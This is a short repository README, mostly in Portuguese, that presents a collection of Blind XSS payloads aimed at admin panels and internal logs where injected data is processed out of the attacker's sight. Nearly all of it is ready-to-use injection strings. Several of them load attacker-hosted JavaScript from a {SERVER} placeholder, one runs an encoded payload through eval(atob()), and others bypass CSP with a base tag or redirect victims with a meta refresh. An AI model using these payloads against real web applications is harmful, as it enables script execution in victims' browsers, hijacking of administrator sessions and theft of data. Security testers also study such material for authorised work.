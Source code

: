 # Blind XSS Payloads
Este repositório contém uma coleção de **payloads para Blind XSS**, úteis para explorar vulnerabilidades onde a injeção ocorre em um ambiente onde a execução do código pode não ser imediatamente visível para o atacante. Blind XSS é frequentemente utilizado em aplicações onde os dados injetados são processados em segundo plano, como painéis administrativos ou logs internos.

![JavaScript](https://img.shields.io/badge/JavaScript-F7DF1E?style=for-the-badge&logo=javascript&logoColor=black)
## Payloads

### Basic blind XSS payload that loads an external script
```
"><script src="{SERVER}/script.js"></script>
```
### Image tag
```
"><img src="x" onerror="eval(atob(this.id))" id="{PAYLOAD}">
```
### In case jQuery is loaded, we can make use of the getScript method
```
"><script>$.getScript("{SERVER}")</script>
```
### Bypass certain Content Security Policy (CSP) restrictions with a base tag
```
<base href="{SERVER}" />
```
### Make use of the meta-tag to initiate a redirect
```
<meta http-equiv="refresh" content="0; url={SERVER}" />
```

## By: IvarSatierf
